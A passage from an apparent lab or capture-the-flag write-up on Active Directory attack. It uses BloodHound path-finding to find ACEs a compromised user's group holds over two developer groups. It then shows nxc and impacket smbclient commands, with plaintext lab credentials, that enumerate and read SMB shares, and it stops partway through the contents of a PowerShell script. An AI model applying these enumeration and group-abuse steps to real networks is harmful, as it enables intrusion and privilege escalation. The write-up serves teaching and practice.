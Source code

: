 Following the [BloodHound Documentation](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart), we can ingest the resulting `zip` file into `BloodHound` and begin analyzing the data.

![](./assets/img/rv-sept/bhce.png)


Using `BloodHound`'s path-finding feature, we can identify that `jolene.ong` is a member of the `Development` group which has some [`Access Control Entries (ACEs)`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/ace) on the `senior-developers` and `intern-developers` group.

## Identifying Privileged Groups

We can take the "easy" route and simply abuse both of these ACEs and add ourselves to both groups, which will ultimately lead us in the right direction. However, you may want to take a more methodical approach and identify which of these groups is more "privileged".

Firstly, we can use `jolene.ong`'s credentials to re-enumerate the open shares in `sql01.antennae.rv`, and find that we have read access to the `Tools` share.

```
~$ nxc smb sql01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' --shares
SMB         10.5.10.11      445    SQL01            [*] Windows Server 2022 Build 20348 x64 (name:SQL01) (domain:antennae.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.11      445    SQL01            [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
SMB         10.5.10.11      445    SQL01            [*] Enumerated shares
SMB         10.5.10.11      445    SQL01            Share           Permissions     Remark
SMB         10.5.10.11      445    SQL01            -----           -----------     ------
SMB         10.5.10.11      445    SQL01            ADMIN$                          Remote Admin
SMB         10.5.10.11      445    SQL01            C$                              Default share
SMB         10.5.10.11      445    SQL01            IPC$            READ            Remote IPC
SMB         10.5.10.11      445    SQL01            Tools           READ            Shared folder for tools
```

Inside the `Tools` share, we find a file called `test-connection.ps1` which contains a script that attempts to connect to the `SSH` service on `sql01.antennae.rv`:

```
~$ smbclient.py 'jolene.ong':'BoXALrqvqPd3'@sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use tools
# ls
drw-rw-rw-          0  Sat Aug 30 04:37:19 2025 .
drw-rw-rw-          0  Sat Aug 30 04:37:13 2025 ..
-rw-rw-rw-        854  Sat Aug 30 04:37:19 2025 test-connection.ps1
# cat test-connection.ps1
Import-Module Posh-SSH

$user = 'danish.hakim'
```